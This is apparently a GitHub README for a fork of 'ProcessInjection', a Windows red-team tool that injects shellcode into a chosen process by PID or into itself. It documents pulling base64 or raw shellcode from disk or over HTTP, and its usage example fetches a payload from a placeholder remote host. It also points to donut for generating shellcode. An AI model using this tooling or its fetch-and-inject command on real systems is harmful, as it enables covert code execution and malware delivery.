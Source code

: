 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

Additional Techniques yoinked from 3xpl01tc0d3r: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

### Usage

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\Temp\app.bin bin");
```

Supported targets: Primarily, you'll want to target a process via the PID. However, it is possible to just inject into the ProcessInjection.exe process itself by using the value "self".

Supported bintypes: "b64" for base64 encoded ShellCode and "bin" for raw/binary ShellCode.

Supported binlocations: Any value that starts with `http://` or `https://` is pulled over HTTP(s). Any other value is assumed to exist on disk (or readable off a shared drive).

Shellcode can be generated via donut: https://github.com/TheWover/donut
